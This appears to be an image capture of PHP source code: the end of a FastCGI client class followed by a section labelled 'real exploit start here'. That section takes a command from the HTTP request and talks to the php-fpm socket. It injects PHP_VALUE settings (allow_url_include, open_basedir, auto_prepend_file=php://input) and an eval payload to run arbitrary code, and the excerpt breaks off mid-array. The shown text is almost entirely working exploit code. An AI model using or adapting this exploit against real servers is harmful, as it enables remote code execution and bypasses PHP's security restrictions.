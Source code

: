 ```php
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        fwrite($this->_sock, $request);
        do {
            $resp = $this->readPacket();
            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
                $response .= $resp['content'];
            }
        } while ($resp && $resp['type'] != self::END_REQUEST);
        var_dump($resp);
        if (!is_array($resp)) {
            throw new Exception('Bad request');
        }
        switch (ord($resp['content']{4})) {
            case self::CANT_MPX_CONN:
                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
                break;
            case self::OVERLOADED:
                throw new Exception('New request rejected; too busy [OVERLOADED]');
                break;
            case self::UNKNOWN_ROLE:
                throw new Exception('Role value not known [UNKNOWN_ROLE]');
                break;
            case self::REQUEST_COMPLETE:
                return $response;
        }
    }
}
?>
<?php
// real exploit start here
if (!isset($_REQUEST['cmd'])) {
    die("Check your input\n");
}
if (!isset($_REQUEST['filepath'])) {
    $filepath = __FILE__;
}else{
    $filepath = $_REQUEST['filepath'];
}
$req = '/'.basename($filepath);
$uri = $req .'?'.'command='.$_REQUEST['cmd'];
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php eval(\$_REQUEST['command']);?>"; // php payload -- Doesnt do anything
$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
//$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = http://127.0.0.1/e.php";
$params = array(
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'POST',
        'SCRIPT_FILENAME'   => $filepath,
        'SCRIPT_NAME'       => $req,
        'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
        'REQUEST_URI'       => $uri,
        'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
        'PHP_VALUE'         => $php_value,
```